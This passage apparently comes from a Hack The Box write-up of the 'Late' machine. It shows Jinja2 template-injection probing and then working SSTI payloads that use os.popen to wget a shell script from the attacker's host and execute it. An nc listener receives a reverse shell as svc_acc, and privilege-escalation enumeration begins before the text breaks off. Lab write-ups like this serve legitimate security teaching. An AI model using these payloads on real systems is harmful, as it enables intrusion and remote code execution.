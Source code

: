 ```
[... SNIP ...]
png data for image containing {{ 7 * '7' }}
-----------------------------404991211334584715701059619541--
```
And in the response we get: 
```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 14 Jul 2022 14:37:44 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 15
Connection: close
Content-Disposition: attachment; filename=results.txt
Last-Modified: Thu, 14 Jul 2022 14:37:44 GMT
Cache-Control: no-cache
ETag: "1657809464.0131314-15-365825568"

<p>7777777
</p>
```
Following the tree and testing all payloads, we can discover that in the back end the application is running Jinja2/twig application.  

## User
Now that we know the templating engine, we can navigate to the exploit section and trigger command execution:  
```python
{{config.__class__.__init__.__globals__["os"].popen("wget http://10.10.14.9/shell.sh > /tmp/shell.sh; chmod 755 shell.sh").read()}}
```
and execute the shell:
```python
{{config.__class__.__init__.__globals__["os"].popen("bash shell.sh").read()}}
```
And we can get a shell as user ```svc_acc```
```
[root@kali Late ]$ bash
root@kali:~/Documents/HTB/Boxes/Late# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.156] 56558
bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
bash-4.4$ id
id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
```

## Root
Once we log in, we can check for user owned files and we can see the following:  
```
svc_acc@late:~$ find / -user svc_acc 2>/dev/null | grep -v '/run\|/proc\|/sys\|/home\|/var/lib'                                                                                                                                             
/tmp/shell.sh
/usr/local/sbin
/usr/local/sbin/ssh-alert.sh
/dev/pts/0
/dev/pts/1
```
as we can notice `/usr/local/sbin` is owned by `svc_acc`  and also a script `/usr/local/sbin/ssh-alert.sh`. If we open this script we can see the following:  
```bash
svc_acc@late:~/app$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

```